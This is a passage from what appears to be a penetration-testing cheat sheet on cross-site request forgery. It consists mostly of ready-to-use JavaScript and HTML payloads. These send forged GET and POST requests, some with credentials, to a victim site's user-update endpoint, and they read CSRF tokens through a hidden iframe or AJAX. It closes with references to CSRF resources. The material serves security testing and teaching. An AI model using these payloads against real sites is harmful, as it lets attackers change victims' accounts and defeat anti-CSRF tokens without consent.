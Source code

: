### AJAX GET

```javascript
var url = "http://{{< param "war.rdomain" >}}/user/update/?username=0xffsec"
var xhr = new XMLHttpRequest();
xhr.open("GET", url);
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send();
```

### AJAX POST

```javascript
var url = "http://{{< param "war.rdomain" >}}/user/update/"
var xhr = new XMLHttpRequest();
xhr.open("POST", url, true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("username=0xffsec");
```

```javascript
var url = "http://{{< param "war.rdomain" >}}/user/update/"
var xhr = new XMLHttpRequest();
xhr.open("POST", url, true);
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"username":0xffsec}');
```

{{<hint info>}}
AS mention [before](#content-type), try with different content types:

- `xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");`
- `xhr.setRequestHeader("Content-Type", "multipart/form-data");`
{{</hint>}}

### Get Token from iFrame

```html
<script>
function getToken(){
    var iframe = document.getElementById("iframe");
    var doc = iframe.contentDocument ? iframe.contentDocument: iframe.contentWindow.document;
    var token = doc.getElementsByName("user_token")[0].value;
    console.log(token)
}
</script>
<iframe id="iframe" onload="javascript:getToken();" src="http://{{< param "war.rdomain" >}}/user/update/" style="display:none;"></iframe>
```

### Get Token with Ajax

```javascript
var url = "http://{{< param "war.rdomain" >}}/user/update/"
var xhr = new XMLHttpRequest();
xhr.responseType = "document";
xhr.open("GET", url, true);
xhr.onload = function (e) {
    if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
        var token = xhr.response.getElementsByName("user_token")[0].value;
        console.log(token);
    }
};
xhr.send();
```


[^csrf-cgisecurity]: “The Cross-Site Request Forgery (CSRF/XSRF) FAQ.” CGISecurity - Website and Application Security News, https://www.cgisecurity.com/csrf-faq.html.
[^swissky-csrf]: swisskyrepo. “PayloadsAllTheThings/CSRF Injection at Master.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection.
[^referer-bypass]: “Bypass Referer Check Logic for CSRF.” HAHWUL, https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/.
[^referer-referrer-policy]: “Referer and Referrer-Policy Best Practices.” Web.Dev, https://web.dev/referrer-best-practices/.